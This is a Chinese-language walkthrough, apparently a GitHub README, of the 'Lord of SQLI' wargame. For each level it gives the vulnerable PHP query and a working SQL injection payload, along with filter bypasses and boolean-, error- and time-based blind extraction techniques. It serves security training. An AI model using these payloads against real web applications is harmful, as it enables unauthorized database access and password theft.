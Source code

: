 # Lord of SQLI #
[enter dungeon](https://los.eagle-jump.org/)  
每一題都是GET request，目標基本上就是執行`solve('name');`    
## gremlin ##
```php
$query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
```  
基本題  
payload: id='or 1#  
要注意某些字元需要經過url編碼(#=>%23)
##cobolt
```php
$query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
```  
目標id==admin
所以我們就插admin給id，剩下的部分註解掉就好了  
payload: id=admin'#  
##goblin
```php
$query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
```  
這題禁止了單引號`'`，但由於no是數字，所以其實我們也不需要用到單引號去補足下半部  
注意query裡id被限定為guest，所以我們要插入id=admin的結果，再透過limit或order去把結果推到第一行  
先嘗試 no=1 or 1#  
由於後面的or 1，整個table都會被select出來，於是我們只要用limit去把admin推上來就好  
payload: no=1 or 1 limit 1,1#
##orc
addslashes雖然有bypass的方法，但要達到result['pw']==GET['pw']是很困難的  
所以這一題而言，我們還是需要把密碼給找出來
Boolean-based SQLInjection  
補足字串下半部後，透過and可以測試query的正確性  
如果query正確 `pw=' or 1#`，則會顯示Hello admin  
如果query錯誤 `pw=' or 0#`，則什麼也不會顯示  
另外，找出字串前，先找出長度可以節省很多時間  
先找出admin的密碼長度  
`pw=' or (id='admin' and length(pw) = 1)#`  
`pw=' or (id='admin' and length(pw) = 2)#`  
`pw=' or (id='admin' and length(pw) = 3)#`  
不斷地增加數字，直到出現Hello admin  
另外，也可以用大於小於來節省時間  
`pw=' or (id='admin' and length(pw) > 5)#`
`pw=' or (id='admin' and length(pw) < 10)#`   
最後得到長度為8  
那要怎麼猜測密碼呢?
`pw=' or (id='admin' and pw = 'AAAAAAAA')#`  
brute force他(ง๑ •̀_•́)ง  
也是一種方法啦，但是太沒效率了
我們可以把每個字元個別篩選出來，在一個byte的範圍內去比對會比較有效率一點  
`pw=' or (id='admin' and substr(pw,0,1) = 'a')#`   
或是取出他的ascii code用大於小於的方式去比較，速度會更快
`pw=' or (id='admin' and ord(substr(pw,1,1)) > 10)#`   
最後經過多次嘗試，找出密碼=295d5844(不確定是不是大家都用同一個密碼)  
payload: pw=295d5844  
[orc.py]()
##wolfman
這題禁止使用空白，但是只要把空白換成inline comment(`/**/`)也可以達到空白的效果  
除此之外，就跟goblin那題差不多概念了  
payload: pw='/**/or/**/1/**/limit/**/1,1#
##darkelf
這題禁止使用and/or，但是這兩個operator可以簡單的使用`||`和`&&`代替  
payload: pw='||1 limit 1,1#
##orge
這題其實就是darkelf和orc的綜合題，就不多作介紹了  
值得注意的是，ord會被偵測到or而被擋下來，只要改用ascii就可以了  
payload: pw=6c864dec  
[orge.py]()
##troll
SQL是non-case sensitive的，但是ereg是，所以只要換個大小寫就可以bypass這關  
payload: id=Admin
##vampire
admin會被替換成空字串，那aadmin呢?adminn呢?  
這題只要輸入admadminin就會被替換回admin  
payload: id=adadminmin
##skeleton
```php
$query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
```  
由於後面and 1=0永遠為false，因此我們需要將後方註解才能bypass  
但是這題也只有這樣而已(๑•̀ω•́)ノ  
payload: pw=' or 1 limit 1,1#
##golem
這題禁止使用substr、等號，但是我們可以透過like語法去拼湊出正確的字串  
`pw='|| id like 'admin' && pw like 'A%'#`  
也因為禁止使用等號，測試長度時必須要用大於小於來做比較了  
payload: pw=88e3137f  
[golem.py]()  
##darkknight
這題與上一題相比，除了參數換到no、不能用單引號外好像也沒有太大的變化  
`no=1 || id like "admin" && pw like "A%"#`  
payload: pw=1c62ba6f  
[darkknight.py]()  
##bugbear
這次等號和like都被禁止使用了，我們還能用什麼語法去突破呢?答案是in  
`no=1 || id in("admin") && length(pw) > 0`  
別忘記將空白換成/**/，經過幾次嘗試我們可以得到密碼長度為8  
接著，沒有substr、like，我們要怎麼把字串切割出來呢?在SQL中還有許多處理字串的函數，如left、right、mid等等  
`right(left(pw,位置),1)`或是`mid(pw,位置,1)`都可以做字串切割  
於是切割出字串後一樣用in進行比對  
`no = 1 || id in("admin") && mid(pw,1,1) in("A")`  
最後得到密碼為735c2773  
[bugbear.py]()
##giant
這題主要是考觀念，SQL裡除了空格(0x20)、換行(0x0A)之外，還有許多會被視為空格的字元  
payload: shit=%0B
##assassin
這題需要賭guest和admin的密碼不一樣，並透過like去做brute force  
如果我們輸入的pw讓admin和guest同時符合這個條件，螢幕只會顯示Hello guest，所以如果我們把所有字都測試過了依舊沒有出現Hello admin，代表admin和guest的那個字元是相同的，我們就可以在那個位置插上`_`，並對下一個字元做brute force  
例如我們測試到`pw=8%`時出現了Hello guest，代表guest的密碼第一個字是8，但是之後的測試都沒有出現Hello admin，這代表admin的密碼第一個字也是8，於是我們調整payload`pw=_0%`、`pw=_1%`去測試第二個字元，以此類推
注意我們並不需要把admin的密碼完整的dump出來，只要出現Hello admin就可以過了  
payload: pw=832%  
[assassin.py]()
##zombie_assassin
ereg可以輕易用%00跳過判斷  
`id=%00'`，你熟悉的單引號就又回來囉~  
payload: id=%00'or 1#
##succubus
接續上題，那如果他連單引號也不讓你插怎麼辦(｡ŏ_ŏ)  
既然不能新增，那我們就思考看看現有的單引號能不能被利用  
```php
$query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
```  
我們如果在id插入一個反斜線`\`，整個SQL query就會變成  
id=`'\' and pw='`，跟pw的第一個單引號結合，於是pw剩下的參數就是我們可以操控的SQL語法了  
payload: id=\&pw=or 1#
##nightmare
MySQL在做字串和數字比較時，會先嘗試將字串轉成數字  
"0String" = 0  =>  0 = 0  
"1String" = 0  =>  1 = 0  
當字串前沒有數字時，字串就會被轉為0  
"String" = 0 => 0 = 0  
所以我們在payload中插入  
`pw=')=0`
就可以得到table中的所有資料，但是，後面的id!='admin'還需要被註解掉  
由於無法使用#、--等註解符號，我們利用%00截斷SQL對query的解讀`pw=')=0%00`  
但是，還是沒有結果...這是因為我們用%00截斷了SQL query的字串，所以我們必須為他補上完整的語法，分號`;`  
payload: pw=')=0;%00 剛好六個字元
##xavis
這題...與之前orc那幾題有什麼差別嗎?  
說一樣是一樣，說不一樣也是有一些些不同的  
這一題的資料庫裡儲存的資料是unicode編碼的，之前習慣用ascii()去測試的人在這題會得到一堆奇怪的資料，改用ord()就可以拿到完整的unicode字元  
最後得到16進位的密碼為0xb8f9c5b0c6d0c4a1a4bb  
轉成字串則是`¸ùÅ°ÆÐÄ¡¤»`  
payload: pw=¸ùÅ°ÆÐÄ¡¤»
##dragon
```php
$query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
```  
我們可以觀察到query後方被單行註解掉了  
"單行"註解，所以我們只要插入換行符號，讓query換行，就可以跳脫單行註解的限制了  
payload: pw=%0A or 1 limit 1,1#
##iron_golem
Error-based SQL injection，具體原理就是，雖然無法從網頁結果得知query正不正確，但是我們可以透過特殊的query引發SQL錯誤，藉以判斷query正不正確  
`if( length(pw) > 0, 1, (select 1 union select 2 union select 3))`  
當正確時會執行1，沒有錯誤、錯誤時會執行(select 1 union select 2 union select 3)，而引發錯誤  
因此payload大約長這樣  
`pw=' or if(length(pw) = 0,1,(select 1 union select 2 union select 3))#`
接下來就與boolean-based差不多了  
最後得到密碼為!!!!(真的是四個驚嘆號XD)  
paylaod: pw=!!!!
##dark_eyes
一樣是error-based，但是這一題因為禁止使用if和case，所以我們使用一些比較神奇的做法去引發錯誤  
次方power函式如果數字過大會引發錯誤，讓我們來考慮以下兩種情形  
1. power(1,9999999999) = 1  
2. power(2,9999999999) = 超大數  
實際執行過後發現`pw=' or power(2,9999999999)#`會引發SQL錯誤，讓server回傳空白網頁  
因此payload如下  
`pw=' or id='admin' and power((測試query)+1,9999999999)%23`  
最後得到結果為5a2f5d3c  
payload: pw=5a2f5d3c
##umaru
Time-based SQL injection  
基本原則是，當query成功時會執行sleep，server的回覆就會延遲一定的時間，藉此來判斷query是否成功，甚至可以把回傳的結果直接當作sleep的參數，例如sleep(length(pw))，只要計算延遲的秒數，就可以知道pw的長度，不過這種方法必須確保原先server的延遲非常小  
```php
if((!$realflag[flag]) || ($realflag[flag] != $tempflag[flag])) reset_flag();
```  
如果我們隨意嘗試payload，會讓server reset flag，因此，我們要做的就是透過sql error讓程式不會繼續向下執行  
輸入flag=(select sleep(10))就可以讓server延遲10秒，但要達到執行sleep，之後又可以引發一個error來讓update失敗，我們可以插入(select sleep(10) = (select 1 union select 2))  
最後payload如下  
`flag=(select sleep(測試) = (select 1 union select 2))`  
至少這題可以保證密碼大家都不一樣XD  
[umaru.py]()